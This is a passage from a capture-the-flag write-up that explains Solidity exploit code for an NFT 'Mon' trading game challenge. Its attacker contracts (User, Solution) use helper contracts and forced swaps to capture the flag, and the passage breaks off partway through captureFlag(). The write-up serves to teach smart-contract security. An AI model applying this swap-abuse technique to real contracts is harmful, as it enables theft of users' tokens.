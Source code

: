 ```solidity
    function putUpForSale() external {
        game.putUpForSale(deck[0]);
        game.putUpForSale(deck[1]);
        game.putUpForSale(deck[2]);
    }

    // Swap an own Mon with some Mon from the attacker.
    // This function is called by the attacker.
    function attack(uint idx, uint wantId) external {
        game.swap(solution, deck[idx], wantId);
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }
}
```

The attacker will call the `attack()` function, initiating a swap from a Mon
from the user’s wallet to a _Mon_ from the attacker’s wallet.

Going further, let’s check out the attacker contract, called `Solution`:

```solidity
contract Solution {
    // The game's address.
    IGame private immutable game;
    // Our deck, i.e. our 3 Mon NFTs.
    uint[3] private deck;

    // The two fren contracts to borrow Mon NFTs from.
    User u1;
    User u2;

    constructor(address game_) {
        game = IGame(game_);

        // Join game, receive 3 NFTs.
        deck = game.join();
        require(
            game.balanceOf(address(this)) == 3,
            "Solution: Joinig game failed"
        );
    }

    // Function to start the attack.
    function captureFlag() external {
        // Put own NFT's for sale.
        game.putUpForSale(deck[0]);
        game.putUpForSale(deck[1]);
        game.putUpForSale(deck[2]);

        // Deploy 2 User frens.
        u1 = new User(address(game));
        u2 = new User(address(game));

        // Let user's join game.
        u1.joinGame();
        u2.joinGame();
```